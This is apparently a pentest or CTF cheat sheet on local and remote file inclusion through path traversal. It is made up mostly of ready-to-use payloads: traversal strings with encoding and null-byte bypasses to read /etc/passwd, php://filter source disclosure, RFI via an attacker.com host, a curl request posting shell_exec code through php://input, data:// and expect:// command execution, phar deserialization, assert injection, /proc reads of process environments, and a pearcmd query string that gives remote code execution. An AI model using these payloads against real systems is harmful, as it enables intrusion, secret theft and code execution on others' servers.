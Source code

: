 # LFI/RFI via Path Traversal
> LFI (commonly exploited through directory traversal) refers to the inclusion of unintended (but locally avaliable on the server) files into a frontend interface that can be accessed by an attacker.

This differs from RFI (Remote File Inclusion), which is the inclusion of remote files (not originally available on the server) that can result in RCE. LFI is usually milder compared to RFI, but can still be deadly in early stages of an attack, such as viewing the source of an application to identify possible vectors for RCE.

## OG exploit (path/directory traversal)

`https://example.com/?page=../../../../../../flag.txt`

### Filter bypass
`example.com/?page=....//....//etc/passwd`

`?page=..///////..////..//////etc/passwd`

Some applications may try to validate the start of the file path.  
`?page=/var/www/images/../../../etc/passwd`

You can also url-encode or double url-encode to bypass some filters.  
`?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`

`?page=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd`

If the application checks for file extension:  
`?page=../../../etc/passwd%00.png`

### Sandboxed (Trapped in a Safe-Dir)

In flask: If you are confirm chop-stamp really sandboxed, then it may be possible to try to `INSERT INTO` a database (which you CAN READ through LFI) with `{{''.__class__.__mro__}}` etc.

## Python's urllib
urllib.request.urlopen() has a quirky built-in functionality to automatically parse `<URL:http://example.com>` and `<http://example.com>` to `http://example.com`. 

We can bypass certain filters like scheme filters this way, as urllib.parse.urlparse() doesn't do the same thing, but instead interprets the entire thing as the path.

## PHP

### Path truncation (bypass appending of more chars at end)

`example.com/?page=/etc/passwd%00`
(Fixed in php 5.3)
This will signal EOL and ignore the rest of filename after the null byte

### URL scheme exploits (works with functions like **file**, **open**, **fwrite**, **fclose**, **file_get_contents**, **file_put_contents** etc)

*NOTE: Remember to urlencode payloads if necessary!*

#### php://filter

After directory traversal has been identified, to view php source instead, use php file filters

`https://example.com/?page=php://filter/convert.base64-encode/resource=flag.php`

`https://example.com/?page=php://filter/read=string.rot13/resource=flag.php`

Other filters:
- [x] string.toupper
- [x] string.tolower
- [ ] string.strip\_tags

The filter is necessary to ensure the source is returned, instead of just executing the php. After returning the source, it can be decoded (b64decode for the former, rot13 for the latter)

> Sometimes RFI may also be possible.

#### http://

Can redirect to external source, such as attacker's server -> RCE
If extension is appended, bypass by added a query, `http://attacker.com/?q=` -> `include('http://attacker.com/?q=.php')`

#### php://input

Reads input from POST request body
`php://input`
`curl -X POST --data '<?php echo shell_exec('id'); ?>' 'https://example.com/?page=php://input' -k -v`

#### zip://

(note: following exploits appended where directory traversal was identified, eg. `example.com/?page=EXPLOIT`)
`zip://<zipfile>#<file>` to upload files zipped and decompress on target.

#### data://

`data://text/plain, <?php system($_GET["cmd"]);`
`data://text/plain;base64, <b64encoded-exploit>`

#### expect://

`expect://ls`

#### phar://

Note: not as useful, because phar file has to first be present on target. Useful if unrestricted uploads are allowed and filename can be determined. Also useful if app only reads the file, and doesn't execute it (in this case, deserialization = execution)
Create a phar file

```php
// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();
```

If a file operation is now performed on our existing Phar file via the phar:// wrapper, then its serialized meta data is unserialized. If this application has a class named AnyClass and it has the magic method `__destruct()` or `__wakeup()` defined, then those methods are automatically invoked

```php
class AnyClass {
    function __destruct() {
            echo $this->data;
                }
                }
                // output: rips
                include('phar://test.phar');
```

### LFI/RCE via assert

If source looks like this:
`assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");`
`' and die(show_source('/etc/passwd')) or '` (similar to SQLi)
`' and die(system('whoami')) or '`

## proc filesystem

The /proc directory contains one subdirectory for each process running on the system, which is named after the process ID. PID can be bruteforced (up to 2^15).

`/proc/self` is a symlink that points to the currently running process. 

Intersting payloads:
- `/proc/[PID]/cmdline` (shows process invocation command, may expose paths, usernames, passwords)
- `/proc/[PID]/environ` (shows env vars)
- `/proc/[PID]/cwd` (shows current working directory)
- `/proc/[PID]/fd/[0-9]` (contains one entry for each file the process has open)

## PHP pearcmd LFI2RCE

pearcmd.php (installed by default on Docker php images, usually found at /usr/local/lib/php/pearcmd.php). 
This internally calls `pear`, which has a subcommand that allows us to create PHP config files.

`pear config-create <root path> <filename>`

The stuff in root path gets repeated a number of times in the config file. This is the output:

```
$ pear config-create "/tmp/<?=system('ls')>" /tmp/asdf.php
$ cat /tmp/asdf.php

#PEAR_Config 0.9
a:12:{s:7:"php_dir";s:30:"/tmp/<?=system('ls')>/pear/php";s:8:"data_dir";s:31:"/tmp/<?=system('ls')>/pear/data";s:7:"www_dir";s:30:"/tmp/<?=system('ls')>/pear/www";s:7:"cfg_dir";s:30:"/tmp/<?=system('ls')>/pear/cfg";s:7:"ext_dir";s:30:"/tmp/<?=system('ls')>/pear/ext";s:7:"doc_dir";s:31:"/tmp/<?=system('ls')>/pear/docs";s:8:"test_dir";s:32:"/tmp/<?=system('ls')>/pear/tests";s:9:"cache_dir";s:32:"/tmp/<?=system('ls')>/pear/cache";s:12:"download_dir";s:35:"/tmp/<?=system('ls')>/pear/download";s:8:"temp_dir";s:31:"/tmp/<?=system('ls')>/pear/temp";s:7:"bin_dir";s:26:"/tmp/<?=system('ls')>/pear";s:7:"man_dir";s:30:"/tmp/<?=system('ls')>/pear/man";}
```

Afterwards, `include`ing /tmp/asdf.php will execute `ls` a couple of times, and RCE will be achieved.

### Query string exploitation

`?path=../../../usr/local/lib/php/pearcmd.php&+config-create+tmp<?=system('ls')>+/tmp/asdf.php`

If you need spaces in your RCE, you can use ${IFS} (+ won't work as pear will treat it as a parameter delimiter)

*If your browser automatically URLencodes the special characters (`<?'>`), use curl or Burp Pro instead*

